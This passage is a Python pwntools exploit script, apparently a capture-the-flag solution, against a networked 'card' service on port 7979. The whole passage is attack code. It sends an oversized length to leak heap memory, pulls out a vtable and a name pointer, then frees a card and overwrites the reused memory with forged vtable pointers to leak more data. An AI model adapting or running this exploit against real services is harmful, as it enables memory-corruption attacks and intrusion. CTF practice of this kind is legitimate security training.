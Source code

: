 ```python
    r.send(p32(_token))

def set_name(_id, _token, n, sz):
    r = remote(target, 7979)
    op = 1
    r.send(p32(op))
    r.send(p32(_id))
    r.send(p32(_token))

    r.send(p32(sz))
    r.send(n)

def get_name(_id, _token):
    r = remote(target, 7979)
    op = 0x11
    r.send(p32(op))
    r.send(p32(_id))

    sz = u32(r.recv(4))

    return r.recv(0x200)

card_id = create()
set_name(card_id, 0x1337, b"test", 0xffffffff)
sleep(1)

card_id_2 = create()
sleep(1)

name = get_name(card_id, 0x1337)
name = name[0x110:]
# print(name)
vtable = u64(name[:8])
name_ptr = u64(name[8:16])
print('vtalbe : ', hex(vtable))
print('name_ptr : ', hex(name_ptr))


id_1 = create()
sleep(1)
id_2 = create()

r = remote(target, 7979)
op = 1
r.send(p32(op))
r.send(p32(id_2))
r.send(p32(0x1337))

sleep(1)

del_card(id_2, 0x1337)
sleep(1)

set_name(id_1, 0x1337, b"A"*56, 56)
set_name(id_1, 0x1337, p64(vtable)*2+p64(0x100), 56)

sleep(1)

r.send(p32(50))
r.send(b"\x11")

leak = u64(r.recv(8))

```